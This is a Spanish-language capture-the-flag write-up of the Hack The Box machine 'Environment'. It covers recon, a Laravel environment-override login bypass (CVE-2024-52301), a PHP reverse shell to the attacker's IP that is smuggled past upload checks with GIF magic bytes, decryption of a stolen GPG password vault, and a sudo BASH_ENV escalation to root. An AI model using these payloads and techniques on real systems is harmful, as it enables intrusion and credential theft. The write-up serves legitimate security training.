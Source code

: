 # Environment

- **Plataforma:** HTB 
- **Fecha de resolución:** 28/07/2025
- **Autor:** Albr_0x4a

- Enlace a mi archivo de notas para más detalle: [notes.md](./notes.md)
---

## Escaneo de Puertos con Nmap:

- **Identificar puertos abiertos:**

- **Comando:** nmap -p- -n -Pn --min-rate 5000 -sS 10.10.11.67

- **Identificar servicios y versiones en los puertos abiertos:**

- **Comando:** nmap -p22,80 -sCV 10.10.11.67

```bash
# Nmap 7.94SVN scan initiated Sat Jul 26 14:17:05 2025 as: nmap -p22,80 -sCV -oN target 10.10.11.67
Nmap scan report for 10.10.11.67
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 26 14:17:15 2025 -- 1 IP address (1 host up) scanned in 10.58 seconds
```

## Explorando Servicio Web

- Al entrar en la página, no vemos gran cosa, por lo que procedemos a hacer fuzzing a la web en busca de directorio u otros archivos:

```bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://environment.htb/ -t 100 -x php,txt,xml,log
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://environment.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              log,php,txt,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4602]
/login                (Status: 200) [Size: 2391]
/upload               (Status: 405) [Size: 244852]
/storage              (Status: 301) [Size: 169] [--> http://environment.htb/storage/]
/up                   (Status: 200) [Size: 2126]
/logout               (Status: 302) [Size: 358] [--> http://environment.htb/login]
/vendor               (Status: 301) [Size: 169] [--> http://environment.htb/vendor/]
```

- Primero entramos a `/upload`, ya que tiene un código de estado **405**, al entrar nos encontramos con un error, el cual nos muestra información valiosa como la versión de `Laravel`

![](./screenshots/upload_page.png)

- Al buscar por vulnerabilidades para esta versión de `Laravel`, nos encontramos con que tiene una vulnerabilidad que explotandola podemos conseguir cambiar el entorno en el que trabaja `Laravel`: [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301)

- Proximamente navegamos hacia `/login`, donde nos encontramos con un formulario para iniciar sesión.

![](./screenshots/login_page2.png)

- Después de probar posibles inyecciones `SQL` y `NoSQL`, y modificar parámetros, nos damos cuenta que si enviamos la variable `remember` con un valor diferente de `true` o `false`, nos devuelve un error:

```bash
_token=uAaKjtD5M76sxmk1RcpmZHd7zY895IgojVP8KjmE&email=test%40test.com&password=test&remember=1
```

![](./screenshots/error_login.png)

- En este error podemos ver un fragmento de código, donde la app verifica si el entorno es `preprod`, y si esto se cumple, nos inicia sesión automaticamente como el usuario con id=1 (admin), lo cual podemos explotar con la vulnerabilidad vista anteriormente.

- Para lograr iniciar sesión, necesitamos interceptar la petición y agregar el parámetro `--env` con el valor `preprod`.

```bash
POST /login?--env=preprod HTTP/1.1
```

![](./screenshots/dashboard.png)

- Una vez dentro, vemos que tenemos un mecanismo para modificar la foto de perfil, y si no está validando correctamente, podriamos subir un archivo `.php` y ejecutar código.

![](./screenshots/upload_image.png)

- Creamos nuestro archivo `rce.php` con el siguiente contenido:

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'");
?>
```

- Al subir el archivo nos devuelve un error, y después de un rato sin éxito modificando la extensión y el `Content-Type`, para tratar de burlar el mecanismo, intentamos probar añadiendo los `magic bytes` de un archivo `.gif`:

```bash
(printf '\x47\x49\x46\x38\x37\x61'; cat rce.php) > reverse.php
```

- Nuevamente obtenemos un error al subir el archivo, pero si modificamos la extensión a `.png`, se sube correctamente, por lo que llegamos a la conclusión que se están validando tanto los `magic bytes` como la extensión. Después de un rato probando con diferentes extensiones, tenemos áxito con `.php.` y obtenemos una shell.

![](./screenshots/reverse_shell.png)

- Ya dentro del sistema y después de un rato enumerando, encontramos con que tenemos permisos en el directorio del usuario `hish` y obtenemos acceso al archivo `keyvault.gpg`  en `/home/hish/backup`.

```bash
www-data@environment:/home/hish/backup$ ls
keyvault.gpg
```

- Este archivo es un archivo cifrado o de clave compatible con el estándar OpenPGP, dejo más información sobre este archivo en este [enlace](https://docs.fileformat.com/misc/gpg/)

- Para poder descifrarlo nos traemos el archivo cifrado a nuestro sistema y copiamos los archivos `pubring.kbx`, `trustdb.gpg` y el contenido de la carpeta `private-keys-v1.d` del directorio `/home/hish/.gnupg/` de nuestra máquina comprometida, a  `~/.gnupg/` en nuestra máquina, luego ejecutamos el siguiente comando y obtenemos acceso a los datos cifrados: 

```bash
gpg -d keyvault.gpg
gpg: cifrado con clave de 2048 bits RSA, ID B755B0EDD6CFCFD3, creada el 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

- Con estas credenciales, podemos conectarnos al sistema como el usuario `hish` mediante ssh:

```bash
ssh hish@10.10.11.67
hish@10.10.11.67's password: 
Linux environment 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-bash-5.2$ 
```

- Al ejecutar `sudo -l` vemos que podemos ejecutar `/usr/bin/systeminfo` con permisos de administrador:

```bash
hish@environment:~$ sudo -l
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

- Al revisar este archivo vemos que es un script el cual ejecuta una serie de comandos para mostrar información del sistema:

```bash
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###" 
df -h
```

- Lo primero que notamos es que no se está utilizando la ruta absoluta para ejecutar comandos lo que se podria aprovechar mediante `Path Hijacking`, pero si analizamos de nuevo la salida de `sudo -l`, notamos que el path se está reiniciando, por lo que no funcionaria:

```bash
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty
```

- También podemos observar anteriormente, que la variable de entorno `BASH_ENV` no se reinicia, esta variable se utiliza sobre todo cuando se ejecutan comandos en shells no interactivas, como en scripts. Por lo que si le asignamos la ruta de un script malicioso, se ejecutará sin problemas:

```bash
hish@environment:~$ nano /tmp/mount
hish@environment:~$ cat /tmp/mount
#!/bin/bash

chmod +s /usr/bin/bash
hish@environment:~$ chmod +x /tmp/mount 
hish@environment:~$ export BASH_ENV=/tmp/mount 
```

- Ejecutamos `sudo /usr/bin/systeminfo`, y luego lanzamos una shell privilegiada. Navegamos al directorio `/root/` y obtenemos la flag.

```bash
hish@environment:~$ ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1265648 Mar 30  2024 /usr/bin/bash
hish@environment:~$ bash -p
bash-5.2# whoami
root
bash-5.2# cd /root/
bash-5.2# ls
root.txt  scripts
```